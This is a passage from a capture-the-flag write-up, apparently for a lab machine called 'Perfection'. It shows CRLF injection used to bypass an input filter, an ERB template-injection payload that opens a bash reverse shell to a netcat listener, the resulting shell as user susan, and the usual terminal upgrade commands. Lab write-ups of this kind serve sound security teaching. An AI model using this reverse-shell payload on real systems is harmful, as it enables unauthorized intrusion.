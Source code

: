 However, inserting a string and %0a (which is a line feed urlencoded) before the payload works. This is known as CRLF injection:

![CRLF injection works](/assets/images/Perfection/crlf-injection-works.png)

# Access as susan

Now we can insert a payload to gain access to the machine via reverse shell after spawning a nc listener:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

![Reverse shell](/assets/images/Perfection/reverse-shell.png)

> SSTI Payload used: ```<%= system('bash -c "bash -i >& /dev/tcp/10.10.15.19/443 0>&1"') %>```

We successfully gained access as susan:

```bash
connect to [10.10.15.19] from (UNKNOWN) [10.10.11.253] 45704
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

Now do the common tty trick to having a completely interactive shell, do ctrl+c, ctrl+l, etc:

```bash
susan@perfection:~/ruby_app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
susan@perfection:~/ruby_app$ ^Z
[1]  + 38875 suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + 38875 continued  nc -lvnp 443
                                    reset xterm
susan@perfection:~/ruby_app$ export TERM=xterm
susan@perfection:~/ruby_app$ export SHELL=bash
susan@perfection:~/ruby_app$ stty rows 50 cols 184
```
